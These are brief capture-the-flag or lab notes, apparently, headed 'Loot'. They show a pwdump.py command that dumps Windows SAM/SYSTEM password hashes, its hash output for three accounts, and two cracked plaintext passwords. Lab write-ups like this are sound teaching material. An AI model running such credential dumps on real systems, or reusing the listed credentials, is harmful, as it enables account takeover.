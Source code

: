 # Loot
## Hashes
## Using pwdump.py to dump hashes
Used `python3 /usr/share/creddump7/pwdump.py SYSTEM SAM` to dump hashes to a file.
```bash
❯ python3 /usr/share/creddump7/pwdump.py SYSTEM SAM  | tee hash.hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
## Passwords
`L4mpje`:`bureaulampje`
`administrator`:`thXLHM96BeKL0ER2`


